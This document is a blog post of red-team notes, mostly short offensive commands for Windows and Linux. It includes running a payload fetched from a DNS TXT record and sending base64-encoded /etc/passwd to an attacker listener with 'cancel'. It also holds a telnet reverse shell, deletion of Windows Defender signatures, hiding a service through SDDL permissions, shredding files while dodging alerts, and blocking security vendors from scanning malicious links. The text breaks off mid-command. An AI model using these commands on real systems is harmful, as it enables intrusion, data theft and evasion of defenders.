 ```yaml
---
layout: post
title:  "Red Team Notes"
date:   2020-09-20 16:46:24 +0200
categories: [redteam, R&D]
---
```


# Windows

## Malicious Payload in DNS Txt
Attacker can put malicious payload in DNS TXT record content of domain. So, watch out for:

```bash
powershell . (nslookup -q=txt some.domain.com)[-1]
```


---
## Curl with cancel
Except curl, wget and nc commands, attacker can use ‘cancel’ to exfiltrate data 

```bash
Attacker machine:
nc -nlvp 18110 

Victim machine:
cancel -u "$(cat /etc/passwd | base64)" -h <ip>:<port>
```

---

---

## RCE without python Bash 
After successful RCE inside container, but the container doesn't have BASH, Netcat, Python, or any of your normal revshell helpers, attacker can also use telnet

```bash
mkfifo /tmp/cth; sh -i 2>&1 </tmp/cth | telnet <atkIP> 8443 >/tmp/cth; rm /tmp/cth
```

---

---

Example: using explorer.exe for code execution

```powershell

explorer.exe /root,"C:\Windows\System32\calc.exe"
```

---

## Windows Defender signature removoal  
A bit messy, but if Windows Defender is causing you a big headache, rather than disabling it (which alerts the user), you should just neuter it by deleting all the signatures:

```powershell
"%Program Files%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

---

---

Red Teamers: those pesky security vendors--like VirusTotal, PaloAlto, and Fortinet--will poke at your infrastructure and evaluate your malicious links, potentially flagging them. Use this .htaccess file to block the common ones outright: https://gist.github.com/curi0usJack/971385e8334e189d93a6cb4671238b10

---

---
## Delete file with shred
Just deleting files is not enough. To really remove them, use shred.

```bash
shred -z cthulhu.txt
```

If shred command is in monitoring for generating alert, the shred command may be caught, you can do this:

```bash
FN=cthulhu.txt; dd bs=1k count="du -sk \\"${FN}\\" | cut -f1" if=/dev/urandom >"${FN}"; rm -f "${FN}"
```

---

---
## Hiding Windows services
This is a really nasty tip: Windows' sc.exe allows you to manually assign service permissions with SDDL syntax. This allows you to essentially make your service invisible unless defenders already know the service name.

Services.exe, Get-Service, sc.exe, all of these fail.

Hiding Windows services:

```powershell
sc sdset evilsvc "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLO
